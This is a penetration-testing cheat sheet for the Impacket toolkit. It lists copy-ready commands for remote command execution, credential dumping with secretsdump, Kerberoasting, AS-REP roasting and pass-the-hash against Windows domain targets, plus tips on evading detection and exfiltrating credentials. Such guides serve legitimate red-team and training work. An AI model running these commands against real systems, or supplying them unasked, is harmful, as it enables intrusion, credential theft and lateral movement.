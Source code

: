 ```yaml
---
icon: box-open-full
---
```


# Impacket

## The Impacket Masterclass: Professional Network Protocol Toolkit for Penetration Testing

Impacket is a powerful Python library and toolkit that provides low-level programmatic access to numerous network protocols, enabling advanced penetration testing, exploitation, and network automation. It is widely used by red teamers and security researchers to interact with Windows network services, craft custom protocol packets, and perform lateral movement and credential extraction.

***

### I. Environment Setup: Dynamic Variables

Set environment variables for repeatable, flexible usage:

```bash
export TARGET_IP="10.10.10.10"
export USERNAME="administrator"
export PASSWORD="Password123!"
export DOMAIN="TARGETDOMAIN"
export HASH=""
export WORK_DIR="impacket-results"
export SMB_PORT=445
export SCRIPT="psexec"          # Popular Impacket scripts: psexec, wmiexec, smbexec, secretsdump, GetUserSPNs, GetNPUsers, etc.
export OPTIONS="--hashes $HASH" # e.g., NTLM hash authentication

```

***

### II. Core Capabilities & Workflow

* **Remote Command Execution:** Execute commands on Windows targets over SMB/RPC with `psexec.py`, `wmiexec.py`, or `smbexec.py`.
* **Credential Dumping:** Extract password hashes, LSA secrets, and cached credentials with `secretsdump.py`.
* **Kerberos Attack Tools:** Request and abuse service tickets, crack service principal names with `GetUserSPNs.py` and `GetNPUsers.py`.
* **Interactive SMB Sessions:** Shell-like access via SMB shares for lateral movement.
* **Protocol Access:** Build and parse packets for SMB, MSRPC, DCOM, LDAP, TDS (MSSQL), Kerberos, and more.
* **Python Library:** Build custom tools or automate tasks using Impacket’s extensive class and protocol handling.
* **Post-Exploitation:** Integrate findings with Metasploit, CrackMapExec, or other frameworks for follow-up attacks and persistence.

***

### III. Professional Usage Examples

#### 1. Remote Command Execution with PsExec

```bash
python3 psexec.py $DOMAIN/$USERNAME:$PASSWORD@$TARGET_IP -nooutput

```

#### 2. Execute WMI Commands (without writing files)

```bash
python3 wmiexec.py $DOMAIN/$USERNAME:$PASSWORD@$TARGET_IP "whoami"

```

#### 3. Dump Credentials from Target

```bash
python3 secretsdump.py $DOMAIN/$USERNAME:$PASSWORD@$TARGET_IP -outputfile $WORK_DIR/dump

```

#### 4. Kerberos Service Principal Name Enumeration (SPN)

```bash
python3 GetUserSPNs.py $DOMAIN/$USERNAME:$PASSWORD@$TARGET_IP -outputfile $WORK_DIR/spns.txt

```

#### 5. AS-REP Roasting Attack for Unconstrained Accounts

```bash
python3 GetNPUsers.py $DOMAIN/$USERNAME -outputfile $WORK_DIR/asrep.roast

```

#### 6. SMB File Upload & Execution

Use low-level Impacket classes or `psexec.py` to upload and execute payloads remotely.

#### 7. Using Hashes for Authentication

```bash
python3 psexec.py $DOMAIN/$USERNAME@$TARGET_IP -hashes $HASH

```

#### 8. Interactive SMB Client

```bash
python3 smbclient.py //$TARGET_IP/share -username $USERNAME -password $PASSWORD

```

***

### IV. Advanced Techniques & Scenarios

* **Custom Protocol Packet Crafting:** Develop specific protocol manipulations and explore undocumented features.
* **Lateral Movement Automation:** Build scripts chaining Impacket commands to traverse networks.
* **Detection Evasion:** Use Impacket's ability to perform fileless commands (`wmiexec.py`) for stealthier operations.
* **Integration with Post-Exploitation Frameworks:** Utilize Impacket dumps in CrackMapExec or Metasploit for persistence and privilege escalation.
* **Hash Attacks:** Use NTLM hashes for pass-the-hash style authentication without needing passwords.
* **Kerberos Ticket Abuse:** Request overprivileged tickets or tickets for services to access critical systems.
* **Red Team Collaboration:** Embed Impacket-based scripts in C2 infrastructure for custom payload delivery.

***

### V. Real-World Workflow Example

1. **Set environment variables:**

```bash
export TARGET_IP="192.168.1.105"
export DOMAIN="CORP"
export USERNAME="admin"
export PASSWORD="Passw0rd!"
export WORK_DIR="impacket_output"

```

1. **Dump credentials from a target:**

```bash
python3 secretsdump.py $DOMAIN/$USERNAME:$PASSWORD@$TARGET_IP -outputfile $WORK_DIR/secrets

```

1. **Run remote commands with WMI:**

```bash
python3 wmiexec.py $DOMAIN/$USERNAME:$PASSWORD@$TARGET_IP "ipconfig /all"

```

1. **Dump Kerberos tickets for privilege escalation:**

```bash
python3 GetUserSPNs.py $DOMAIN/$USERNAME:$PASSWORD@$TARGET_IP -outputfile $WORK_DIR/spns

```

1. **Attempt Pass-the-Hash authentication:**

```bash
python3 psexec.py $DOMAIN/$USERNAME@$TARGET_IP -hashes $HASH

```

***

### VI. Pro Tips & Best Practices

* **Always prefer fileless command execution** (`wmiexec.py`) to reduce footprints.
* **Combine credential dumping with Kerberos ticket attacks** for robust domain escalation.
* **Use NTLM hashes carefully** to operate without cleartext passwords.
* **Integrate with other pentesting tools** such as CrackMapExec and Metasploit for comprehensive exploitation.
* **Audit target environment** thoroughly to select the right protocols for each engagement.
* **Maintain operational security:** avoid overuse of noisy operations like file uploads unless needed.
* **Regularly update Impacket** to benefit from latest features and bug fixes.
* **Exfiltrate credentials securely** and document all moves for reporting.

***

This professional Impacket guide empowers pentesters to harness deep Windows protocol interactions for remote command execution, credential harvesting, lateral movement, and sophisticated domain attacks.

Sources
